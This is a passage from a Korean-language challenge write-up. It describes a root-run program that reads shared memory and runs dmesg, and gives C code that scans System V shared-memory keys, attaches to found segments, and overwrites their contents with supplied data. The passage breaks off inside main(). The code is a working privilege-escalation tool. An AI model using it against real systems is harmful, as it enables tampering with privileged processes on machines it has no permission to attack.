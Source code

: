 루트로 실행되는 프로그램이 있었으며, 공유메모리를 통해 데이터를 저장한, 불러와서 `dmesg`를 실행하고 있었습니다.

### 분석 과정

gcc가 가능하여 다음 파일을 `sftp`로 넣은 뒤 컴파일 하여 실행하였습니다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <unistd.h>
#include <errno.h>

#define SHM_SIZE 1024
#define MAX_KEY 0xFFFFF      // 스캔할 최대 키 값
#define SCAN_INTERVAL_SEC 1  // 전체 스캔 주기 (초)

 void find_and_write(key_t key, const char* data) {
     int shm_id;
     char* shm_addr;

     // IPC_CREAT 플래그 없이 shmget을 호출하여 해당 key의 메모리가 '존재하는지' 확인합니다.
     shm_id = shmget(key, SHM_SIZE, 0666);
     if (shm_id == -1) {
         // 대부분의 키는 메모리가 없으므로, 실패하는 것이 정상입니다.
         // 따라서 오류 메시지 없이 조용히 반환합니다.
         return;
     }

     // 이 줄에 도달했다면, 해당 key의 공유 메모리를 찾은 것입니다.
     printf("발견 (Key: %u)! 데이터 쓰기를 시도합니다...\n", key);

     shm_addr = (char*)shmat(shm_id, NULL, 0);
     if (shm_addr == (char*)-1) {
         perror("shmat failed");
         return;
     }

    // --- 추가 코드 시작: 원래 데이터를 읽어서 출력 ---
    {
        char original[SHM_SIZE];
        // 기존 메모리 내용을 복사 (널 종결자 확보)
        strncpy(original, shm_addr, SHM_SIZE - 1);
        original[SHM_SIZE - 1] = '\0';
        printf("-> 기존 데이터 (Key %u): \"%s\"\n", key, original);
    }
    // --- 추가 코드 끝 ---

     // 데이터를 쓰고 연결을 해제합니다.
     strncpy(shm_addr, data, SHM_SIZE - 1);
     shm_addr[SHM_SIZE - 1] = '\0';
     printf("-> 성공: Key %u에 데이터 쓰기 완료: \"%s\"\n", key, data);

     if (shmdt(shm_addr) == -1) {
         perror("shmdt failed");
     }
 }

int main(int argc, char* argv[]) {
    // 인자로 '쓸 데이터'를 받습니다.
    if (argc != 2) {
        fprintf(stderr, "사용법: %s \"<쓸 데이터>\"\n", argv[0]);
```
